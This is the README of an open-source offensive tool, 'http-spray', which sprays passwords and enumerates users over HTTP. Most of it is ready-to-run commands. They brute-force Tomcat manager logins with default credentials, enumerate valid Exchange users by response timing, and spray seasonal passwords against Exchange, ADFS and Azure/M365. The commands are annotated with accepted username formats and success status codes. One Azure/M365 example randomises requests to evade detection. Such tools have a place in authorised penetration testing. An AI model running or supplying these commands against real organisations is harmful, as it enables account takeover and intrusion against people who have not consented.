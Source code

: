 # http-spray

## Setup

Install with [pipx](https://github.com/pypa/pipx/).

~~~ bash
pipx install git+https://github.com/dadevel/http-spray.git
~~~

## Usage

Basic example: Brute force Tomcat manager login.

~~~ bash
curl -LO https://github.com/dadevel/wordlists/raw/main/passwords/tomcat-credentials.txt
http-spray -t https://app.corp.com/tomcat/manager/html -m basic -c ./tomcat-credentials.txt | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

Get notifications on success trough [ntfy.sh](https://ntfy.sh).
The notifications contain no personal data.

~~~ bash
http-spray -t https://app.corp.com/admin -m basic -u ./default-usernames.txt -p 'changeme' --notify https://ntfy.sh/$(uuidgen -r)
~~~

### Exchange

Time-based user enumeration against on-prem Exchange server.
Requests for valid users take about 0.1s, invalid users take more than 1.5s.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m basic -u ./users.txt -p '' | tee -a ./http-spray.json | jq -c 'select(.time < 0.5)'
~~~

> **Note:**
>
> The user enumeration requires basic authentication and seems to work only with the user formats `corp\jdoe` and `corp.com\jdoe` where `jdoe` is the *samaccountname*.

Password spraying against on-prem Exchange server.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m ntlm ./users.txt -p 'Summer2023#' | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

> **Note:**
>
> The RPC endpoint returns 404 for successful logins.
> For alternate endpoints see [here](https://github.com/dadevel/wordlists/raw/main/windows/exchange.txt).
>
> Furthermore Exchange accepts the following username formats: `jdoe`, `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work for the OWA web login.

### ADFS

Password spraying against ADFS trough NTLM authentication.

~~~ bash
http-spray -t https://sts.corp.com/adfs/services/trust/2005/windowstransport -m ntlm -u ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json
~~~

Password spraying against ADFS trough OAuth2 password grant.

~~~ bash
http-spray -t https://sts.corp.com/adfs/oauth2/token -m oauth --client-id 11111111-2222-3333-4444-555555555555 --resource https://app.corp.com/ -u ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json | jq -c 'select(.status_code == 200)'
~~~

> **Note:**
>
> ADFS accepts the following username formats: `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work as well.

### Microsoft Cloud

Password spraying against Azure/M365 trough OAuth2 password grant.

~~~ bash
http-spray -t https://login.windows.net/corp.com/oauth2/token -m msauth --client-id 1fec8e78-bce4-4aaf-ab1b-5451cc387264 --resource https://graph.windows.net -u ./users.txt -p 'Summer@2024' | tee -a ./http-spray.json
~~~

Password spraying against Azure/M365 with full request randomization.

~~~ bash
http-spray -t https://login.microsoftonline.com/corp.com/oauth2/token -m msauth --user-agents ./wordlists/desktop-user-agents.csv --client-id ./wordlists/m365-public-clients.csv --resource ./wordlists/m365-resources.csv -u ./users.txt -p ./passwords.txt | tee -a ./http-spray.json
~~~

> **Note:**
>
> The username must be specified as email address, e.g. `john.doe@corp.com`.
